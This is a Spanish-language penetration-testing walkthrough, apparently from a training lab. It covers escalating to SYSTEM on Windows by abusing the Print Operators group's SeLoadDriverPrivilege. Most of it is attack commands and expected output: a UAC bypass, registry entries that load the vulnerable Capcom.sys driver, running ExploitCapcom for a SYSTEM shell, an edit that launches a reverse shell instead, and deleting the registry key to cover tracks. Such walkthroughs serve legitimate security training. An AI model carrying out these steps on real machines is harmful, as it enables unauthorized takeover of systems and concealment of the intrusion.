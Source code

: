 # 🔐 Windows Privilege Escalation - Print Operators

## 🧑‍💻 ¿Qué es el grupo Print Operators?

**Print Operators** es un grupo privilegiado en sistemas Windows, especialmente en entornos de dominio. Sus miembros tienen acceso a operaciones críticas como:

- Administrar, crear, compartir y eliminar impresoras conectadas a un **Controlador de Dominio (DC)**
- Iniciar sesión localmente en un DC
- Apagar el sistema
- Poseen el privilegio **SeLoadDriverPrivilege**, que permite **cargar o descargar controladores (drivers) en el kernel**

Este último privilegio puede ser explotado para lograr una **escalada de privilegios a SYSTEM**, si conseguimos cargar un driver malicioso o vulnerable.

---

## 🔎 Verificación de privilegios

Comando:

```cmd
whoami /priv
```

En una sesión **no elevada**, probablemente no verás `SeLoadDriverPrivilege` en la lista. Esto se debe a que necesitas una **sesión elevada** (con token completo) para que aparezca.

---

## 🔓 Elevación mediante bypass de UAC

Si no tienes acceso a una GUI para ejecutar un proceso como administrador, puedes utilizar una herramienta como **UACMe**, que permite evadir el control de cuentas de usuario (UAC) desde la línea de comandos.

📦 [UACMe en GitHub](https://github.com/hfiref0x/UACME)

Esto te permitirá lanzar procesos elevados sin necesidad de interacción del usuario, obteniendo así un token completo con acceso a `SeLoadDriverPrivilege`.

---

## ⚙️ Preparar el entorno: Referencia al driver

Descarga el driver vulnerable [capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys) `Capcom.sys` y colócalo, por ejemplo, en `C:\Tools\Capcom.sys`.

A continuación, creamos dos entradas de registro bajo `HKEY_CURRENT_USER` para registrar el driver con el sistema.

```cmd
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```

✅ Esto emula la forma en que los drivers se registran normalmente en `HKLM\SYSTEM\CurrentControlSet\Services`, pero en este caso lo hacemos en HKCU para no requerir privilegios de administrador.

📌 El prefijo especial `\??\` representa una **NT Object Path**. El API de Win32 lo traducirá internamente al path real (`C:\Tools\Capcom.sys`) al cargar el driver.

---

## 📄 Verificar que el driver no está cargado

Utiliza **DriverView** de NirSoft para listar todos los controladores cargados actualmente en el sistema.

📦 [DriverView – NirSoft](https://www.nirsoft.net/utils/driverview.html)

```powershell
.\DriverView.exe /stext drivers.txt
cat drivers.txt | Select-String -Pattern Capcom
```

---

## 🛠️ Compilar y ejecutar EnableSeLoadDriverPrivilege

Este programa habilita el privilegio `SeLoadDriverPrivilege` en el token del proceso y ejecuta la función `NtLoadDriver()` para cargar el driver referenciado en el registro.

### 📥 Código fuente

📄 [EnableSeLoadDriverPrivilege.cpp (GitHub)](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp)

Añade las importaciones arriba del todo del script: 
````c
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
````

### ⚙️ Compilación

Abre un símbolo del sistema de **Visual Studio 2019 Developer Command Prompt** y ejecuta:

```cmd
cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp
```

Esto generará `EnableSeLoadDriverPrivilege.exe`.

### ▶️ Ejecución

```cmd
EnableSeLoadDriverPrivilege.exe
```

✅ Si todo va bien, verás el privilegio `SeLoadDriverPrivilege` como **Enabled** y una llamada exitosa a `NtLoadDriver`.

Ejemplo de salida esperada:

```
whoami:
INLANEFREIGHT0\printsvc

whoami /priv
SeLoadDriverPrivilege        Enabled
...
NTSTATUS: 00000000, WinError: 0
```

---

## ✅ Verificar que el driver ha sido cargado

Repite el escaneo con DriverView para asegurarte de que `Capcom.sys` está cargado:

```powershell
.\DriverView.exe /stext drivers.txt
cat drivers.txt | Select-String -Pattern Capcom
```

---

## 💣 Ejecutar exploit con Capcom.sys

Ahora que el driver está cargado, podemos explotarlo para ejecutar código con privilegios SYSTEM. Podemos usar la herramienta de ExploitCapcom después de compilarla con VisualStudio.

📦 [ExploitCapcom en GitHub](https://github.com/tandasat/ExploitCapcom)

```cmd
ExploitCapcom.exe
```

Salida esperada:

```
[*] Capcom.sys exploit
[*] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
```

✅ Tendrás una shell como **NT AUTHORITY\SYSTEM**

---

## 🧱 Alternativa sin GUI: Reverse Shell

Si no tienes acceso a un entorno gráfico o prefieres obtener una shell remota, edita `ExploitCapcom.cpp` y reemplaza la línea 292:

```cpp
TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
```

por:

```cpp
TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

Compila el binario y escucha con netcat (o similar) desde tu máquina atacante. También puedes usar un bind shell o payload que agregue un usuario.

---

## 🤖 Automatización con EoPLoadDriver

Podemos usar una herramienta como **EoPLoadDriver** para automatizar el proceso completo:

- Habilita el privilegio
- Crea la clave de registro
- Ejecuta `NtLoadDriver`

📦 [EoPLoadDriver en GitHub](https://github.com/TarlogicSecurity/EoPLoadDriver/)

```cmd
EoPLoadDriver.exe System\CurrentControlSet\Capcom C:\Tools\Capcom.sys
```

Salida esperada:

```
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-...-1103\System\CurrentControlSet\Capcom
NTSTATUS: c000010e, WinError: 0
```

Después, ejecuta `ExploitCapcom.exe` como antes.

---

## 🧹 Limpieza

Para cubrir rastros, elimina la clave de registro que creaste:

```cmd
reg delete HKCU\System\CurrentControlSet\CAPCOM
```

Confirma con **Yes** cuando se te pregunte.

---

## ⚠️ Limitaciones

A partir de **Windows 10 versión 1803**, **ya no es posible cargar drivers desde HKEY_CURRENT_USER**, lo cual **invalida esta técnica en versiones modernas**.

---
